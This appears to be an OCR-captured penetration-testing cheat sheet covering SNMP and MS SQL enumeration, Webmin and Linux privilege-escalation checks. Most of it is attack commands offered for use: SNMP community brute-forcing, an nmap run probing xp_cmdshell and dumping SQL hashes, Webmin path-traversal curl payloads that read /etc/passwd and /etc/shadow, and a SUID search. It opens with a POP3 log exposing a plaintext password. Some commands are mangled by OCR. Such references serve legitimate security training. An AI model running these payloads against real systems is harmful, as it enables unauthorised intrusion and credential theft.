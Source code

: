 \+OK 2 1807\
1 786\
2 1021

retr 1

\+OK Message follows\
From: [jamesbrown@motown.com](mailto:jamesbrown@motown.com)\
Dear Billy Dean,

Here is your login for remote desktop ... try not to forget it this time!\
username: billydean\
password: PA$$W0RD!Z

- SNMP Enumeration -Simple Network Management Protocol

    - Fix SNMP output values so they are human readableapt-get install snmp-mibs-downloader download-mibs echo "" > /etc/snmp/snmp.conf

    - SNMP Enumeration Commands

        - snmpcheck -t $ip -c public

        - snmpwalk -c public -v1 $ip 1|

        - grep hrSWRunName|cut -d\\\* \\\* -f

        - snmpenum -t $ip

        - onesixtyone -c names -i hosts

    - SNMPv3 Enumerationnmap -sV -p 161 --script=snmp-info $ip/24

    - Automate the username enumeration process for SNMPv3:apt-get install snmp snmp-mibs-downloader wget <[https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb](https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb)>

    - SNMP Default Credentials /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt

- MS SQL Server Enumeration

    - Nmap Information Gathering\
nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip

- Webmin and miniserv/0.01 Enumeration - Port 10000\
Test for LFI & file disclosure vulnerability by grabbing /etc/passwd\
`curl \\<http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`>\
Test to see if webmin is running as root by grabbing /etc/shadow\
`curl \\<http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`>

- Linux OS Enumeration

    - List all SUID filesfind / -perm -4000 2>/dev/null
